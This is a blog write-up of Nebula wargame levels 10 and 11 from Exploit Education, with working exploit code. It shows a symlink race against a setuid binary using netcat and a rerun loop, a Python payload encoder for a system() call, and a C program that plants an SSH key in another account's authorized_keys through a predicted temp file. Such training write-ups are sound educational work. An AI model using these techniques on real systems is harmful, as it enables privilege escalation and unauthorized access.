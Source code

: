```yaml
---
layout: post
title: "Exploit Education - Nebula: Write-up (Part 21)"
date: 2019-06-25 21:44:38.000000000 +8:00
excerpt: Write-ups for all the nebula challenges included in the VM created by exploit education. Nebula covers a variety of simple and intermediate challenges that cover Linux privilege escalation, common scripting language issues, and file system race conditions.
tags: [exploit education, solution, nebula]
keywords: [exploit education, nebula, solution, tip, answer, ctf]
---
```


## Introduction

As the challenges are relatively short, I will be slowly updating this post will the ones I have completed. The VM can be obtained at [Exploit Education](https://exploit.education/nebula/), a website created by Andrew Griffiths that teaches common (and less than common) weaknesses and vulnerabilities in Linux.

The main purpose of each level is to bypass certain restrictions imposed by the system, and run `getflag` with the required privileges (pwn).

## Level10

Inspecting the home directory of `level10`, one may find a curious file names "x". Within the file, the password to the `flag10` account is stored. I assumed this was an unintended error as it would make this challenge boring. Thus, I ignored this file.

The home directory of `flag10` contains 2 files: a `token` file, which we do not have read permissions, and an executable with its source code provided online.

Inspecting the source code, the first thing I noticed was that the check by `access` is performed pre-maturely compared to the `open`. The timing difference is exaggerated by the `write` to a socket, which is known to take a long time. This increases the chance of a race condition, where we can abuse this delay to bypass the initial check. This is confirmed by the [man page for access](http://man7.org/linux/man-pages/man2/access.2.html), which specifies "...creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it."

In order to abuse the delay, we can swap the contents of the files we want to check. Initially, it may be a normal file, but it can be swapped to a symbolic link to the target file "token". This is done by the command `ln -fs /home/flag10/token foo.txt`. As the socket is created on port 18211, a keep-alive socket listener is required; it can be created by `netcat -kl 18211 &> out.txt &`. The last "&" indicates it runs in the background. To abuse the race condition, 2 terminals will be needed: one to repeatedly run the "flag10" executable by `while :; do /home/flag10/flag10 foo.txt 127.0.0.1; done`, and another to swap the original "foo.txt" to a symlink. We hope the timing is correct, and "out.txt" can be checked. If "out.txt" does not contain the required string, then the above process needs to be repeated.

Personally, I got the desired string - "615a2ce1-b2b5-4c76-8eed-8aa5c4015c27" - on my second try. 

## Level11

This level is rather interesting, as I suspect it is not performing as it is intended. Though I have devised a method that performs `getflag` successfully, it is rather convoluted compared to the most obvious method. That method does spawn a shell, but it has insufficient privileges.

The level provides the source code for a binary with the "setuid" bit on.

### Method 1

Inspecting the source code, it appears there is a `system` call within the `process` function. To trigger the `process` function, the first line of input must start with "Content-Length: xxxx", where "xxx" is a valid integer. Then, the integer is parsed, and an `if` function separates the program into 2 cases: one where the integer is smaller than 1024, and one where it is not. Interestingly, the case when the integer is smaller than 1024 only works when the integer is 1. This is indicated by the line `fread(buf, length, 1, stdin) != length`. `fread` returns the number of elements read. The size of each element is indicated by the second argument and the number of each element is limited by hte third argument. As the third argument is "1", the inequality will only hold true when the "length" is 1. With only 1 character under ur control, what I could have done is severely limited. Thus, I mainly focused on the second case.

The second case occurs when the inputted integer is larger or equal to 1024. In that case, a random file is generated by `getrand` and the program essentially reads "length" number of characters from the buffer. The characters are then processed by the `process` function and the message is executed by `system`.

Reversing the process/encryption is rather simple, as we can use the fact that (a ^ b) ^ b == a. As `k` changes after each character is processed, it is easy to reverse engineer it. After some math, the following python code was written to decrypt the code:

```python
def dc(b, l):
    a = ""
    k = l & 0xff
    for i in range(len(b)):
        a += chr((ord(b[i]) ^ k) & 0xff)
        k = (k - ord(b[i])) & 0xff
    return a
```

Thus, we can manipulate the information that goes into `system`. I intended to have an input of "getflag\00". The null terminator is required to finish the input. As a length of at least 1024 is required, the remaining bytes of the input can be padded by some junk character. This is summarised as follows:

```python
from __future__ import print_function
def p(*args):
    print(*args, end="")
cm = "getflag\x00"
print("Content-Length: %d" % (1024))
p(dc(cm, 1024))
for i in range(1024 - len(cm)):
    p("A")
```

Before executing, notice `getrand` requires and environmental variable "TEMP". This is often not set on the system, and I simply set it to "/tmp" by `export TEMP=/tmp`.

However, when it is executed, the program indicates we did not obtain the flag. Further inspection by `strace` reveals that the effective uid was reverted to the original just before the system call.

```bash
level11@nebula:~$ python py.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
getflag is executing on a non-flag account, this doesn\'t count
level11@nebula:~$ python py.py | strace /home/flag11/flag11
...
getgid32()                              = 1012
setgid32(1012)                          = 0
getuid32()                              = 1012
setuid32(1012)                          = 0
...
```

I believe this is an unintended error, as this essentially blocks out all attacks that utilise `system`.

### Method 2

Fortunately, I have devised an alternative method. Observe the escalated permissions are only revoked just before the `system` call. Before that, another function that we can abuse is `write(fd, buf, pink)`. Through "fd" is determined by the random generator `getrand`, the file name that is generated can be estimated. It uses pid, which can be easily determined, and `time(NULL)`, whose resolution is only to hte nearest second. I can then create the predicted file beforehand, and symlink it to a file I want to overwrite (or create).

Now, I had to determine a target file to write. Looking around the home folder of "flag11", I found a ".ssh" folder. There are 2 ways to connect using SSH: using a password or using an authorised key. Coincidentally, the authorised keys are stored in the ".ssh" folder's "authorized_keys" files. Thus, if I can place the key of "level11" in the file, I can SSH into "flag11" without a password, and gain escalated privileges.

To generate a key for "level11", I used `ssh-keygen -t rsa` with default values. This creates a "id_rsa.pub" file, which contains the required keys. 

To predict the temporary filename, I use the fact that 2 executables that run consecutively have a pid difference of 1 and the first executable will execute in less than 1 second given the program is simple and the machine is fast. Using the above 2 facts, I created the following C file that pre-creates a file and symlinks it to "/home/flag11/.ssh/authorized_keys". Note that running this file will cause the executable to end pre-maturely as the required input length was not reached, but at this point the file contents have already been written so it does not matter. Replace `buffer` with whatever is in the "id_rsa.pub" file. In this case, encryption/processing is not needed as that is required for `system` only.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

int getrand(char **path, int pid, int time){
    int fd =  0;
    srandom(time);
    char *tmp = getenv("TEMP");
    asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));
    return fd;
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
    char line[256];
    char buffer[10000] = "...";
    char *path;
    int pid = getpid()+1;
    getrand(&path, pid, time(NULL));
    symlink("/home/flag11/.ssh/authorized_keys",path);
    fprintf(stdout, "%s%d\n%s",CL,sizeof(buffer),buffer);
    return 0;
}
```

Using this method, I simply SSHed into flag11's account by `ssh flag11@127.0.0.1`, concluding this level.


